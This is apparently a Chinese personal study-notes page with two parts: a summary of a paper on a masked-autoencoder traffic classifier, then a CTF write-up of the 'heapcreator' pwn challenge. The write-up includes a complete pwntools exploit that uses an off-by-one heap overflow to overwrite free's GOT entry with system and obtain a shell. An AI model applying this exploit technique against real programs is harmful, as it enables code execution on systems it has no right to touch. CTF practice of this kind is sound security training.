 # 2024-1-28

## Yet Another Traffic Classifier: A Masked Autoencoder Based Traffic Transformer with Multi-Level Flow Representation

### 工作摘要

该论文设计了一个MFR矩阵，通过格式化的矩阵来表示原始流量的多层次信息，并开发了一种新的流量Transformer，以实现在各个层次上更有效的特征提取。为了减少对标记数据的依赖，该论文利用了大规模的未标记数据进行预训练，然后使用少量标记数据进行流量分类。

### 论文思路

预训练方法通过自监督学习显著降低了对标记训练数据的需求，对于流量分类通常将其视为某种语句利用NLP的方法进行预训练。但由于流量字节缺乏明显的高级语义，所以使用CV来提取流量字节的潜在含义更为合适。

但在CV中以往的与训练方法依赖于数据增强以形成成对的正样本和负样本，用于通过对比学习进行预训练。但流量数据的数据增强会严重破坏原始信息无法进行对比学习，而MAE方法则可以通过掩蔽用于中间训练的补丁来构造有效的流量数据预训练模型

![1](image/1.png)

#### MFR矩阵

该方法使用了一个MFR矩阵与格式化的二维矩阵来表示原始流量，首先根据IP地址、端口号和协议类型将原始流量拆分为流。为了避免引入干扰，该方法会删除流的以太网报头，将端口号设置为零，并将IP替换为随机地址，但保持其传播方向。最后，捕获流中的 $M$ 个相邻分组，并将其格式化为大小为 $H*W$ 的二维矩阵。该矩阵拥有以下三种特征

1. 字节层面：MFR流量矩阵中每一行仅包括一种类型的流量字节，分为报头行和有效载荷行
2. 分组层面：每个分组由包头矩阵和有效载荷矩阵表示，形成大小为 $H/M*W$ 的分组级矩阵
3. 流量层面：由于流是由有序的数据包组成的，因此M个相邻的数据包级矩阵在第二维中堆叠以形成最终的MFR矩阵。

该文将MFR矩阵设置为包含5个数据包的矩阵，总共40行，每行包含40个字节。每个数据包的报头由2个80字节的报头行表示，能够包含IP层报头（20字节）、TCP报头（20字节）或UDP报头（8字节）以及可选报头。为每个数据包的有效载荷分配6个有效载荷行，并在超过240字节时执行截断。如果有效字节数不足，则将用0字节填充。

#### Traffic Transformer

根据流量的特点，设计了由嵌入模块、数据包级注意力模块和流级注意力模块组成的Traffic Transformer，并利用MFR矩阵对流量进行有效分类。

##### 嵌入模块

MFR矩阵 $x∈R^{H \times W}$ 会被分成大小为 $P \times P$ 非重叠2D补丁， 数量为 $N=HW/P^2$ ,表示为 $x_p∈R^{N \times P^2}$。然后通过线性层将补丁映射到 $D$ 维向量作为补丁嵌入。为了保持在MFR中至关重要的位置信息，将位置嵌入 $E_{pos}$ 添加到补丁嵌入中作为业务编码器的输入。


$$
x_0 = [x^1_pE;x^2_pE;...;x_p^NE] + E_{pos}
$$

在本文中作者取 $D = 192，P = 2，N = 20*20 = 400$ 使一个补丁的所有元素都表示相同类型的原始字节，每个包矩阵包含一行报头补丁和三行有效载荷补丁。

##### 数据包级注意力模块

该模块使用了一种基于Vision Transformers的流量编码器

它由交替的多头自注意层（MSA）和前馈层组成。为了优先学习分组内的报头补丁或有效载荷补丁之间的依赖性，业务编码器仅在同一分组中的补丁之间而不是MFR矩阵中的所有补丁之间执行多头自注意。

MSA层允许数据包的补丁根据不同头 $Concat（head1，· · ·，headn）$ 的相关程度有效地相互交互，并且每个头由注意力函数计算：


$$
Q=x_lW^Q,K=x_lW^K,V=x_lW^V
\\
Attn(Q,K,V)=SOFTMAX(  \frac{QK^T}{\sqrt D_k})V
$$

其中 $W^Q、W^K、W^V ∈ R^{D×D_k}$ 是可学习的参数。在这项工作中采用 $n = 16$ 平行注意头和 $L = 4$ 交替层。

##### 流级注意力模块

数据包级注意力模块输出了MFR矩阵 $x∈R^{H \times W}$ 中每个补丁的重要数据包级特征，为了进一步提取数据流上不同包的长距离关系依赖，该文中为了以更粗的粒度学习数据包间的关系采用了行池化（RP），它按行将数据包级注意力模块所输出的补丁的特征进行部分平均池化来生成行补丁。


$$
x_r=Pooling(x^{'}_p)
$$


每个分组包含1个报头行补丁和3个有效载荷行补丁，表示分组内的部分特征，将MFR矩阵中的所有行补丁输入到流量编码器中，MSA层捕获行补丁之间的流级信息。最终输出是一列行补丁特征 $x_c ∈ R^{\sqrt{N}×D}$ ，这些行补丁特征进一步被执行列池化（CP）以获得整个MFR矩阵的最终表示 
 $x_{MFR} ∈ R^D$：


$$
x_{MFR}=Pooling(x_c)
$$


## Pwn



进入主函数之后是一个功能选取界面，分别是开辟空间，编辑空间，展示空间，释放空间。

![image-20230916122401722](image/2.png)

进入空间开品函数内部，这里一次会开辟两个空间，第一个是0x10大小的空间，分别存储开辟空间的大小和地址，接着正常开辟空间。

![image-20230916123948037](image/3.png)

进入编辑函数我们可以看见他会根据第一个创建空间中的信息进行空间编辑，并且写入的大小会造成**off by one**漏洞，我们可以多输入一个字节来修改空间的大小，我们可以开辟一个0x18大小的空间，这样溢出的字节就可以修改下一个控制空间的大小。这样我们就可以控制下一个控制空间，将其大小改为8，地址改为free的got表，进行输出和修改进行攻击

```python
from pwn import *
from LibcSearcher import LibcSearcher
sh=remote("node4.buuoj.cn",25191)
elf=ELF('./heapcreator')

def create(length,value):
        sh.recvuntil("Your choice :")
        sh.sendline("1")
        sh.recvuntil("Size of Heap : ")
        sh.sendline(str(int(length)))
        sh.recvuntil("Content of heap:")
        sh.sendline(value)
def edit(index,value):
        sh.recvuntil("Your choice :")
        sh.sendline("2")
        sh.recvuntil("Index :")
        sh.sendline(str(int(index)))
        sh.recvuntil("Content of heap : ")
        sh.sendline(value)
def show(index):
        sh.recvuntil("Your choice :")
        sh.sendline("3")
        sh.recvuntil("Index :")
        sh.sendline(str(int(index)))
def delete(index):
    sh.recvuntil('Your choice :')
    sh.sendline('4')
    sh.recvuntil(b'Index :')
    sh.sendline(str(int(index)))

create(0x18,b'aaaa')
create(0x10,b'bbbb')
create(0x10,b'cccc')
create(0x10,b'/bin/sh')

edit(0,b'a'*0x18+b'\x81')
delete(1)

size = b'\x08'.ljust(8,b'\x00')
payload = b'd'*0x40+ size + p64(elf.got['free'])
create(0x70,payload)
show(2)
sh.recvuntil('Content : ')
free_addr = u64(sh.recvuntil('Done')[:-5].ljust(8,b'\x00'))
print(hex(free_addr))
libc=LibcSearcher("free",free_addr)
system_addr=free_addr+libc.dump("system")-libc.dump("free")

edit(2,p64(system_addr))
delete(3)
sh.interactive()
```

